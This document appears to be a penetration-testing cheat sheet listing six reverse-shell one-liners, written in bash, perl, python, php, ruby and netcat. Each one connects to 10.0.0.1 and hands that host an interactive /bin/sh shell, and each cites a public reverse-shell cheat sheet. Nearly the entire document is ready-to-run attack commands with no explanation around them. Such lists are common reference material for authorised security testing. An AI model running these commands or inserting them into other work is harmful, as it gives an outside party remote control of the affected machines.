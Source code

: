 ### 1. bash reverse shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 2. perl reverse shell
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
**- linux,reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 3. python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**- linux,reverse shells,Windows,python**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 4. php reverse shell : php from the CLI
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**- linux,reverse shells,Windows,php**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 5. ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
**- linux,reverse shells,Windows,ruby**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 6. net cat reverse shell
```
nc -e /bin/sh 10.0.0.1 1234
```
**- linux,reverse shells,Windows**
#### References:

